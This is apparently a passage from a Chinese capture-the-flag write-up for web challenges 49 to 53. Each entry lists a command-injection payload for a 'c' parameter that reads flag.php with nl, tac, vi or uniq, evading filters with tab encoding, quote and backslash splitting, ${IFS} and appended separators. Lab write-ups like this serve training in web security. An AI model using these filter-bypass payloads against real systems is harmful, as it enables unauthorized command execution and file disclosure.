 ```
payload1:c=nl%09fla\g.php||
payload2:c=nl%09fla\g.php%0a
payload3:c=nl%09fla''g.php%0a
payload4:c=nl%09fla""g.php%0a
payload5:c=vi%09fla\g.php%0a
payload6:c=tac%09fla\g.php%0a
payload7:c=uniq%09fla\g.php%0a
payload8:c=nl<fla''g.php||
payload9:c=nl%09fla\g.php%26
```

------

### web-50

我们依旧可以用tac来绕过

```
payload：?c=tac<fl\ag.php||
```

------

### web-51

这题把tac过滤了，我们可以使用nl来进行绕过

```
?c=nl<fl\ag.php||
```

------

### web-52

这道题的<和>被过滤了，但$没有被过滤，我们可以使用\${IFS}来代替空格

```
payload: ?c=nl${IFS}fl\ag.php
```

------

### web-53

跟上题做法一样

```
payload1:c''at${IFS}fla''g.p''hp
payload2:c=nl$IFS\fla\g.php

```

------

### web-54
